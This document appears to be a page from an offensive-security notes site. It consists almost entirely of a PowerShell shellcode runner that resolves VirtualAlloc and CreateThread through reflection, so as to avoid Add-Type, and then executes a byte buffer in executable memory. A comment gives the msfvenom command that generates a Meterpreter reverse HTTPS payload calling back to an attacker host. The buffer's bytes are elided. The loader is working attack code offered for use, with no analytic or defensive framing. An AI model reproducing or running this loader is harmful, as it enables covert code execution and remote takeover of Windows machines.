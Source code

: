 {% code title="ShellcodeRunnerv2.ps1" %}
```powershell
function lookupFunction {
    Param ($moduleName, $funcName)

    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | ? { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp = @()
    $assem.GetMethods() | % {If($_.Name -eq "GetProcAddress") {$tmp += $_}}
    return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $funcName))
}

function getDelegateType {
    Param (
        [Parameter(Position=0, Mandatory=$True)][Type[]] $argsTypes,
        [Parameter(Position=1)][Type] $retType = [Void]
    )

    # Building a DelegateType (doing it manually to avoid usage of Add-Type)
    ## create a custom assembly and define the module and type inside
    $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
    ## set up the constructor
    $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $argsTypes).SetImplementationFlags('Runtime, Managed')
    ## sets up the invoke method
    $type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $retType, $argsTypes).SetImplementationFlags('Runtime, Managed')
    ## invoke the constructor and return the delegation type
    return $type.CreateType()
}

# $VirtualAllocAddr = lookupFunction kernel32.dll VirtualAlloc
# $VirtualAllocDelegateType = getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32])([IntPtr])
# $VirtualAlloc =[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($VirtualAllocAddr, $VirtualAllocDelegateType)
# $VirtualAlloc.Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)

$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((lookupFunction kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)
# msfvenom -p windows/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f ps1
[Byte[]] $buf = 0xff,0xff,...,0xff
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)

$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((lookupFunction kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0, $lpMem, [IntPtr]::Zero, 0, [IntPtr]::Zero)
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((lookupFunction kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)
```
{% endcode %}
